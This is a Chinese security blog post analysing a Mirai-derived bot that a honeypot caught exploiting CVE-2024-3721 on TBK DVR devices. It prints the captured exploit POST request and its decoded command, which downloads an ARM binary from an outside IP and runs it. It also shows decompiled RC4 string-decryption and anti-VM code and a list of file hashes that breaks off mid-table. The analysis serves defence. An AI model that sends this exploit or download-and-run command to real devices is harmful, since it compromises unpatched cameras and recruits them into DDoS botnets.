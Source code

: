 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkxOTUyOTc0NQ==&mid=2247493555&idx=1&sn=4df91360f16f4d814717187b7abce6f8

#  蜜罐捕获一个自动化漏洞攻击的机器人程序  
 二进制空间安全   2025-07-09 08:25  
  
将二进制空间安全设为"星标⭐️"  
  
第一时间收到文章更新  
### 背景  
  
  
在脆弱的系统中安装部署机器人程序是利用安全漏洞自动化扩大攻击范围的一种常用方式, 许多自动化机器人持续在互联网上搜索运行流行服务的服务器和设备中的已知漏洞。这些机器人常携带远程代码执行（RCE）漏洞利用工具，针对 HTTP 服务，从而允许攻击者在 GET 或 POST 请求中嵌入 Linux 命令。  
  
最近某个蜜罐服务捕获到一种利用 CVE-2024-3721 部署机器人程序的行为。攻击对象是基于 DVR 的监控系统。DVR 设备用于记录摄像头数据，由众多制造商广泛使用，并支持远程管理。  
###   
### 漏洞利用  
  
  
在对Linux 蜜罐系统的日志进行审查时, 有一条与 CVE-2024-3721 相关的异常请求行。该漏洞允许攻击者在未经过授权的情况下，通过特定的 POST 请求，在 TBK DVR 设备上执行系统命令，作为攻击的入口点：  

```
&#34;POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F42.112.26.36%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1&#34; 200 1671 &#34;-&#34; &#34;Mozila/5.0&#34;
```

  
该 POST 请求中包含一个恶意命令，它是单行 shell 脚本，用于在被攻击机器上下载并执行一个 ARM32 架构的二进制文件。  
  
解码还原后的命令行如下:  

```
cd /tmp; rm arm7; wget http://42.112.26[.]36/arm7; chmod 777 *; ./arm7 tbk
```

  
典型的机器人感染过程通常包括 shell 脚本初步侦查目标机器的架构，并选择对应的二进制文件。但在本次攻击中，由于目标仅为支持 ARM32 的设备，因此无需进行侦查阶段。  
### 技术分析  
  
  
经过初步分析, 该DVR机器人程序来自Mirai源码的修改, Mirai僵尸网络源码在十年前就有公开, 源码参考地址:  
https://github.com/jgamblin/Mirai-Source-Code  
 。  
  
该机器人程序在源码基础上引入了一些其它特性, 例如: 使用RC4进行字符串加密、虚拟机检测技术(Anti-VM)、反模拟器技术(Anti-emulation)。这里主要剖析一下该机器人程序引入的一些新特性。  
  
该机器人程序在数据解密过程中实现了一个简单的RC4算法, RC4密钥通过XOR加密, 解密后, 得到解密密钥明文:  

```
6e7976666525a97639777d2d7f303177
```

  
。每解密一条数据，就会插入到一个自定义的   

```
DataDecrypted
```

  
 结构向量中，这是一个简单的字符串列表, 以下是实现的关键代码:  

```
int __fastcall DecryptNewtData(int index, char *enc_data, int string_length)
{
    int i;                  
    List *Strlist;         
    int DecryptedString;  
    int DecryptedData;      
    char RC4_Key[48];    // [5pt8h] [bp-30h] BYREF


    i = index;
    Strlist = DecryptedStringList;
    DecryptedString = malloc(string_length + 1);
    Strlist[i].size = string_length;
    Strlist[i].addr = (char *)DecryptedString;


    // 解密 RC4 key
    DecryptKey(RC4_Key);


    DecryptedData = malloc(string_length);


    // 解密字符串并添加到列表
    RC4_Decrypt(RC4_Key, 16, (int)enc_data, DecryptedData, string_length);
    memcpy((int)Strlist[i].addr, DecryptedData, string_length);
    Strlist[i].addr[string_length] = 0;


    return free(DecryptedData);
}
```

  
恶意软件在需要特定字符串时，会访问全局的解密数据链表, 以下是添加解密后的字符串到全局列表:  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0nJYWtDC09fyOJqoR72m2tr8ZaGXR6OkiaCqabDGdtkdEhJHDrRo5M5uJa17MGCfe4aEq2jAd3wpg9iaKS4MZLKg/640?wx_fmt=png&from=appmsg "")  
###   
### 反虚拟机和反模拟器  
  
  
为检测自己是否运行在虚拟机（VM）或 QEMU 环境中，恶意软件会遍历所有进程，查找是否存在 VMware 或 QEMU-arm 的相关进程。列出运行中进程的方法是打开 Linux 的   

```
/proc
```

  
 文件系统目录。  
  
每个进程 ID（PID）都有自己的文件夹，里面包含诸如   

```
cmdline
```

  
 的信息，可用来查看进程的启动命令。通过这些信息，恶意软件判断是否有进程与 VMware 或 QEMU-arm 有关。其关键代码如下:  

```
proc_dir = (struct dirent *)opendir((char *)DecryptedStringList[10].addr); // 打开&#34;/proc&#34;目录
if (!proc_dir)
    exit(0);


while (1) {
    v4 = readdir(proc_dir);
    if (!v4) {
        closedir(proc_dir);
        return;
    }


    if ((*((_WORD *)off_2914C + *(unsigned __int8 *)(v4 + 11)) & 8) != 0) {
        sprintf((int)cmdline_path, 256, &#34;/proc/%s/cmdline&#34;, (const char *)(v4 + 11)); // 获取完整的命令行
        cmdline_file = fopen(cmdline_path, &#34;r&#34;);


        if (cmdline_file) {
            if (fgets(line, 256, cmdline_file) && strequal(line, (char *)DecryptedStringList[102].addr)) {  // 校验是否是&#34;qemu-arm&#34;
                sub_130D4((unsigned __int6 *)cmdline_file, v2, v3);
                closedir(proc_dir);
                goto Exit;
            }
            sub_130D4((unsigned __int6 *)cmdline_file, v2, v3);
        }
    }
}
```

  
该恶意程序还会检查自己的运行目录是否在预设的允许列表中：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0nJYWtDC09fyOJqoR72m2tr8ZaGXR6OkkODibkfYrD2XIXHSxjaafibMvWjBEFjyyCEmc9bZfInK5UjNibHpHUdDw/640?wx_fmt=png&from=appmsg "")  
  
在这些检查成功通过后, 机器人才会继续执行, 为接收指令做准备。  
###   
### 结论  
  
  
攻击者利用未打补丁的物联网设备和服务器中的已知安全漏洞，加上针对基于 Linux 系统的恶意软件的大量使用，导致不断有大量机器人在互联网中搜索可供感染的设备。  
  
这些机器人程序的主要目的，是实施使网站和服务瘫痪的 DDoS 攻击。大多数机器人在设备重启后不会继续存活，因为某些设备固件不允许文件系统发生更改。为了防范这类感染，我们建议在安全补丁发布后及时更新易受攻击的设备。如果设备已经暴露并确实存在漏洞，也可以考虑恢复出厂设置。  
  
### 威胁指标  
  
  
文件指纹:  
<table><tbody><tr><td data-colwidth="191"><section><span leaf="">Md5</span></section></td><td data-colwidth="191"><section><span leaf="">SHA1</span></section></td><td data-colwidth="191"><section><span leaf="">SHA256</span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">011A406E89E603E93640B10325EBBDC8</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">22B2333298B7CC9913C1EAF422DBE8830840D3E0</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">7461C0F8FEAC69A39586C4C1ECFEB32627C5A83043721BA0144479EFC0F036A1</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">24FD043F9175680D0C061B28A2801DFC</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">961C5CB9288292A58C3DF007948DBB8E3602192D</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">438DC2A85E37356EEFD2D40AC7BAFA8C3AD273DD36991D4B155208C3A3D460B5</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">29B83F0AAE7ED38D27EA37D26F3C9117</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">02A9B16A19A03E75D42D1C9C83FA4A5414CE26DC</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">F3989E7CCA7D17C909C5F53945C7846D2D269D32113042BF535285C4D75624E6</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">2E9920B21DF472B4DD1E8DB4863720BF</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">9408BA21116C5904E9B1D910F96DAEF5646E2DCE</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">1FEFA03738B8ED2768F9AAF2B0E4CA4098FEF7122F0157AB010686D7345B2E62</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">3120A5920F8FF70EC6C5A45D7BF2ACC8</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">6C4CBD259AA9D2A7F858AE607AA36DA928F9268E</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">9AE1955B9DE5E4E6B23E55D2AAB3230FF3A6B5C723D77A6653B2145719DC2EB6</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">3C2F6175894BEE698C61C6CE76FF9674</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">69ADF42EA2216846631A85791B653B6CCBC45FB4</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">86EF39910B9361F012F889146E16B2E279A07465FE3E2F9B493EF0534A5C66C0</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">45A41CE9F4D8BB2592E8450A1DE95DCC</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">5160989BA4F8A75EF4E09DEA0FDA3BF7A2211FB7</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">29754B61A1CCE8C965BBC98EFB125991B8B605DEA9F3394C277092F30A109BDB</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">524A57C8C595D9D4CD364612FE2F057C</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">C57A8EF11EC531EAFD62DCB6C3AE558EA59BED08</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">3BDBED482342487E08F5266E1A9B6478FCD0BE645EDCFB1E8C6DDA1DAC73CCE9</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">74DEE23EAA98E2E8A7FC355F06A11D97</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">152B73F3E91EBA572CBD8470A0F01ADF363B7D64</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">B2BE07ED781BCDEF614CD7C1461D81BFD8DF2BC7EB11B6BFB5B202AF881D727C</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">761909A234EE4F1D856267ABE30A3935</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">2E95BBF3069F603AE7FF882770F49DC36223A626</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(248, 248, 248);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">DD54E4A0220B6AFBE0DBEE66E32AF3FE2012CC37023044A683E8E0C98579A059</span></span></section></td></tr><tr><td data-colwidth="191"><section><span style="caret-color: rgb(0, 122, 255);color: rgb(51, 51, 51);font-family: &#34;Open Sans&#34;, &#34;Clear Sans&#34;, &#34;Helvetica Neue&#34;, Helvetica, Arial, &#34;Segoe UI Emoji&#34;, sans-serif;font-size: 16px;font-style: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: normal;orphans: auto;text-align: left;text-indent: 0px;text-transform: none;white-space: pre-wrap;widows: auto;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration: none;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">7EB3D72FA7D730D3DBCA4DF34FE26274</span></span></section></td><td data-colwidth="191"><section><span style="caret-color: 